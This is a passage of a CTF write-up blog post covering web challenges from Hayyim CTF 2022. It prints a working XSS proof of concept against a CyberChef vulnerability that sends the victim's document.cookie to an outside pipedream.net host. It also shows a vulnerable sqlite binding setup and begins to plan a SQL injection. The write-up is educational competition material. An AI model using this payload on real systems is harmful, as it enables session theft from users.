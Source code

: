 ```yaml
---
layout: post
title: "Hayyim CTF 2022 Write Up"
date: 2022-02-13 23:29:53
description: This article is about write-up for the Hayyim CTF 2022. there is only four web challenges, all of which contain XSS and SQL Injection and Logic Bug on Gnuboard bug
imgurl: https://github.com/P0cas/ctf/blob/main/2022/Hayyim%20CTF%202022/hayyim%20CTF%202022.png?raw=true
excerpt: This weekend, Hayyim Security hosted the CTF, and I participated in it for about 3 ~ 4 hours and I was solved Cyberchef, Not E and Cyber Headchef challenges.
---
```

# Summary

This weekend, Hayyim Security hosted the CTF, and I participated in it for about 3 ~ 4 hours and I was solved Cyberchef, Not E and Cyber Headchef challenges.

---
# (Web) Cyberchef [100 pts]

The Cyberchef is a simple XSS challenge. Cyberchef service is open source that provides encryption/decryption service and has 1-Day vulnerability.

```plaintext
http://cyberchef:8000/#recipe=Scatter_chart('Line%20feed','Space',false,'','','red"><script>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/".concat(document.cookie))</script>',100,false)&input=MTAwLCAxMDA
```
1-Day issues can be found [here](https://github.com/gchq/CyberChef/issues/1265). And I was able to get the flag by sending the above PoC to the admin bot.

```plaintext
FLAG : hsctf{fa98fe3d32b4302aff1c322c925238a9d935b636f265cbfdd798391ca9c5a905}
```

---
# (Web) Not E [158 pts]

The Not E challenge is a SQL Injection issue. In this problem, we are using our own binding function, not the Prepared Binding function provided by sqlite of Node, and this function has a vulnerability.

```javascript
const sqlite3 = require('sqlite3');
const flag = require('fs').readFileSync('/flag').toString();

class Database {
  constructor(filename) {
    this.db = new sqlite3.Database(filename);

    this.db.serialize(() => {
      this.run('create table members (username text, password text)');
      this.run('create table posts (id text, title text, content text, owner text)');
      this.run('create table flag (flag text)');
      this.run('insert into flag values (?)', [ flag ]);
    });
  }
// (skip..)
```
I could see the FLAG were stored in a table called `flag`. So, in order to solve this challenge, we have to use SQL Injection to leak the flags contained in the table. Otherwise, read the /flag file using RCE, but this is not possible. Therefore, we should focus on SQL Injection.